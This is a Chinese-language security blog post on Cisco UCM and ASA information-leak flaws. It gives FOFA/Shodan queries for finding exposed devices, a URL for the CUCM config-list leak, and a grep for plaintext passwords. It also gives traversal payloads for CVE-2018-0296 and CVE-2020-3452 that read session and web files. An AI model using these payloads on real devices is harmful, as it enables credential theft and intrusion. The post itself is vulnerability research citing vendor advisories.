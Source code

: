 ```yaml
---

title: "cisco设备信息泄漏漏洞案例2"
date: 2022-10-29T12:00:00+08:00
draft: false
author: "r0fus0d & k1t9meo"
categories: ["技术"]

---
```


上一篇文章介绍了cisco路由器设备的2个漏洞案例，这次补充cisco ip电话设备和安全设备的漏洞案例。

{{% admonition info "info" %}}
本文首发 合天网安 https://mp.weixin.qq.com/s/uLcVV-jPiT1A_zTwqkpmgQ
{{% /admonition %}}

<!--more-->

---

## CISCO-UCM ConfigFileCacheList.txt 泄漏

CISCO-UCM 全称Cisco Unified Communications Manager,是用于集成CISCO的语音视频通话、消息传递和移动协作的基础设施

部分 CUCM 服务器在端口 TCP/6970 上有一个 HTTP 服务,其中存在 ConfigFileCacheList.txt 文件,包含位于 TFTP 目录中的所有文件名.

fofa语句

```
product=="CISCO-UCM"
```

shodan语句

```
http.html:"Cisco Unified Communications Manager"
```

payload

```
x.x.x.x:6970/ConfigFileCacheList.txt
```

在目标文件中包含了许多SEP开头的文件，那是ip电话的配置文件，sep后面接的是mac地址

![Untitled](../../img/cisco-case2/Untitled.png)

可以遍历下载这个ConfigFileCacheList.txt文件内容中的所有文件

![Untitled](../../img/cisco-case2/Untitled%201.png)

在下载的配置文件中，包含ip，描述，端口等配置信息

![Untitled](../../img/cisco-case2/Untitled%202.png)

甚至有的还会包含明文的账号密码

![Untitled](../../img/cisco-case2/Untitled%203.png)

可以用egrep批量查找

```
egrep -r 'Password' *.xml
```

![Untitled](../../img/cisco-case2/Untitled%204.png)

在配置文件中获得了账号密码后，可以尝试登录UCM的web后台

![Untitled](../../img/cisco-case2/Untitled%205.png)

当然这个 ConfigFileCacheList.txt 泄漏比较少见，如果遇到UCM可以试试访问`/cucm-uds/users`路径,可以泄漏用户名信息，再针对用户名进一步爆破弱口令

![Untitled](../../img/cisco-case2/Untitled%206.png)

---

## CVE-2018-0296 Cisco ASA 目录遍历漏洞

Cisco ASA是思科的防火墙设备，一般用于在企业边界，包含了ips，avc，wse等应用功能。

fofa语句

```bash
app="CISCO-ASA-5520"
```

根据文章 [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916) 中的描述,CVE-2018-0296在不同型号设备上存在2种利用场景，一种是拒绝服务造成设备崩溃重启，一种是目录遍历获得敏感信息

在修复方案中则是增加了对`./`和`../`的处理逻辑，以防止目录遍历

拒绝服务这里就不具体测试了，主要看下目录遍历的利用

检测poc

```bash
/+CSCOU+/../+CSCOE+/files/file_list.json
```

![Untitled](../../img/cisco-case2/Untitled%207.png)

注意，类似的poc不能在浏览器里直接粘贴访问，因为浏览器会自动将访问的路径类似/../解析为上一级目录，也就是访问的为`/+CSCOE+/files/file_list.json`

列出 /sessions 目录的内容

```bash
/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions
```

![Untitled](../../img/cisco-case2/Untitled%208.png)

提取登录用户的登录信息

```bash
/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions/[name]
```

![Untitled](../../img/cisco-case2/Untitled%209.png)

---

## **CVE-2020-3452** Cisco ASA 目录遍历漏洞

CVE-2020-3452漏洞可以在未验证的情况下进行任意文件读取

该漏洞源于 ASA 和 FTD 的 web 服务接口在处理 HTTP 请求的 URL 时缺乏正确的输入验证，导致攻击者可以在目标设备上查看系统内的web目录文件。

此漏洞不能用于获取对 ASA 或 FTD 系统文件或底层操作系统 (OS) 文件的访问，所以只能读取 web 系统目录的文件，比如 webvpn 的配置文件、书签、网络 cookies、部分网络内容和超文本传输协议网址等信息。

作者在推特分享的检测poc

[https://twitter.com/aboul3la/status/1286141887716503553](https://twitter.com/aboul3la/status/1286141887716503553)

```bash
/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

读取 `/+CSCOE+/portal_inc.lua` 文件

![Untitled](../../img/cisco-case2/Untitled%2010.png)

至于进一步利用，有研究人员给出了一些已知文件列表

[https://twitter.com/HackerGautam/status/1286652700432662528](https://twitter.com/HackerGautam/status/1286652700432662528)

[https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco_asa_file_list.txt](https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco_asa_file_list.txt)

不过实际测试，除了`session.js` 跑出了一个乱码的内容以外，其他的文件多是一些资源文件，难以进一步利用。

---

## Source & Reference

- [https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html](https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html)
- [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86)
- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/](https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/)
- [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916)
